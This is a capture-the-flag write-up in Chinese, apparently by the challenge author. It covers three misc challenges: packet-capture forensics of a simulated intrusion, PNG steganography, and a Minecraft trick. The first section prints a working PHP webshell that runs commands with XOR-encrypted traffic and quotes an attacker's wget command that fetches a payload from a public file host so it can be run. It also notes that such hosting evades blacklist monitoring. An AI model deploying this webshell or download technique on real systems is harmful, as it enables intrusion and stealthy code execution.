

# Misc

## APU的犯罪证据

出题壬临时起意，弄了个简单地缝合了misc,crypto,re,web的题目。本题的背景是模拟黑客入侵过程中的流量，有一定的实际意义(自卖自夸ing)。

首先下载流量包，弄个http的过滤参数，看到一堆http包

接着点开那个POST包，发现是上传webshell

就可以发现webshell长这样

```php
<?php
session_start();
function fastpow($a,$b,$c)
{
    if($b==0)
        return 1;
    $res=fastpow($a,intval($b/2),$c);
    if($b%2)
        return $res*$res*$a%$c; 
    return $res*$res%$c;
}
if(!isset($_SESSION['p']))
{
    $_SESSION['p']=rand(1, 255);
    $_SESSION['.']=rand(5,10);
    $_SESSION['ra']=rand(50, 100);
    $Sa=fastpow($_SESSION['.'],$_SESSION['ra'],$_SESSION['p']);
    printf("%d,%d,%d",$_SESSION['p'],$_SESSION['.'],$Sa);
    die();
}
if(!isset($_SESSION['key']))
{
    $_SESSION['key']=fastpow($_GET['sb'],$_SESSION['ra'],$_SESSION['p']);
    die();
}
$code=$_REQUEST['code'];
$cmd='';
for($i=0;$i<strlen($_REQUEST['code']);$i++)
{
    $cmd.=chr(ord($_REQUEST['code'][$i]) ^ $_SESSION['key']);
}
ob_start();
system($cmd);
$res=ob_get_contents();
ob_end_clean();
for($i=0;$i<strlen($res);$i++)
{
  echo chr(ord($res[$i]) ^ $_SESSION['key']);
}
```

这个webshell也是出题壬临时起意写的，上午做觅马学作业来的灵感。

这个webshell使用了diffie-hellman密钥交换协议，使得被动监听者无法直接拿到流量。但是密钥过弱，是1-255，非常容易爆破
编写脚本进行爆破

```python
import urllib.parse
cipher=urllib.parse.unquote('ez%7Ds%7F%7B')
def xor(i):
    return ''.join([chr(ord(c)^i) for c in cipher ])
for i in range(1,256):
    print(i)
    print(xor(i))
```

过程不截图了，i为18的时候结果是whoami，所以密钥为18，这样就可以解密所有流量了。

接着可以在流量里面发现攻击者用webshell执行了一个命令

```shell
wget "http://pan-yz.chaoxing.com/download/downloadfile?fleid=471314960076619776&puid=117048149" -U "Mozilla/5.0 (Windows NT 10.0; WOW64;  rv:43.0) Gecko/20100101 Firefox/43.0"  -O a
```

让受控机从超星服务器上面下载一个文件，然后执行。注意，这在真实的入侵中也是一种常见的手段，攻击者往往会采取各种公开的基础设施来托管自己的恶意代码，从而绕过一些基于黑名单防护的流量监控设备,实现隐藏自身的目的

(由于出题壬的失误,这个URL也可以直接在流量包里面找到,我错了我自裁)

好的,我们从这个URL下载文件,然后拖入IDA,发现就是读取flag,编码后输出

跟进这个encode_string函数

发现是个变种base64加密,密码表在chlist里面
(很诚实地讲,出题壬在出题的时候联系了@Minhal 来写这个程序,至于该怎么看出这是base64,坦白来说,作为一个web🐕我也不知道)
点开chlist查看密码表


接着根据流量里面的对应内容编写解密脚本
(该脚本由@lcx贡献,感谢他)

```python
s = 'NOPQRSABCDEFGHIa23156bcdefgJKLMT7894VWXYZhijklmnopqrstuvwxyz0+/'
dest = 'KuHtev3XMu8WJW+ZfcxTecS8ecS8ecS8ecS8ecS8ecS8edsE'

i = 0
flag = ''

while i < len(dest):

	temp = s.index(dest[i]) << (6 * 3)
	temp += (s.index(dest[i + 1]) << (6 * 2))
	temp += (s.index(dest[i + 2]) << (6 * 1))
	temp += (s.index(dest[i + 3]) << (6 * 0))

	flag += chr((temp >> 16) & 0xff)
	flag += chr((temp >> 8) & 0xff)
	flag += chr(temp & 0xff)

	i += 4

print(flag)
```

运行出flag

## 专业团队

~~我才不会告诉你们是出题人选错了压缩算法才让这个题这么简单~~

### 原本的想法

PNG文件的IDAT块的大小是固定的，从上往下除了最后一个IDAT块可能比较小，其它应该都是一样大的。但是这个文件里的倒数第二个IDAT块大小不对，应该有隐藏信息



### 大家的解法

直接binwalk出gz压缩包，解压获得flag

## 假的签到

`/gamemode 3`进观察者模式，就能看到地下的空洞（还插着火把）
